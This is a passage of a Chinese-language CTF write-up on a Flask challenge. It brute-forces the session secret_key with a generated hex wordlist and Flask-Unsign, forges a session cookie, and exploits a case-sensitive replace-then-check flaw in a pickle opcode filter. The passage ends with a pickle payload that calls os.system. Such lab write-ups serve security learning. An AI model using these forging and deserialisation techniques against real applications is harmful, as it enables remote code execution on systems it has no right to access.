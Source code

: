 结合之前用过的 `flask_session_cookie_manager` 尝试爆破 secret_key 结果一直失败... 从网上找了个现成的工具用反而成功了

[https://github.com/Paradoxis/Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign)

先生成字典

```python
with open('dict.txt','w+') as f:
    dicts = '0123456789abcdef'
    for a in dicts:
        for b in dicts:
            for c in dicts:
                for d in dicts:
                    f.write(a + b + c + d)
                    f.write('\n')
```

然后用工具爆破, 本地很快就出来了

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171913952.png)

`ce06`

之后构造的 cookie structure 大概如下

```
{"user": "admin", "ser_data": "xxx"}
```

接下来的问题就是如何构造 ser_data

源码中 pickle 反序列化的部分有一些过滤


```python
a = base64.b64decode(session.get('ser_data')).replace(b"builtin", b"BuIltIn").replace(b"os", b"Os").replace(b"bytes", b"Bytes")
if b'R' in a or b'i' in a or b'o' in a or b'b' in a:
    raise pickle.UnpicklingError("R i o b is forbidden")
pickle.loads(base64.b64decode(session.get('ser_data')))
```

过滤了 R i o b 的 opcode, 几乎无法命令执行 (也可能是我了解的不是很深还没找出来绕过的方法...)

但是需要注意的是判断之前进行了好几次 replace, 但后面反序列化的内容还是被替换之前的 ser_data

而且这里 in 的判断是区分大小写的

然后再关注一下 replace, builtin 被替换成 BuIltIn, os 被替换成 Os, bytes 被替换成 Bytes, 恰巧地绕开了后面对 i o b 这三个字符的检测

所以我们的思路就是构造包含 i o b 这三个指令码的字符串 (builtin os bytes), 然后替换的时候绕过检测, 最终利用被替换前的 payload 进行反序列化

参考文章

[https://goodapple.top/archives/1069](https://goodapple.top/archives/1069)

翻到了这一段 opcode

```python
(cos
system
S'whoami'
o.
```
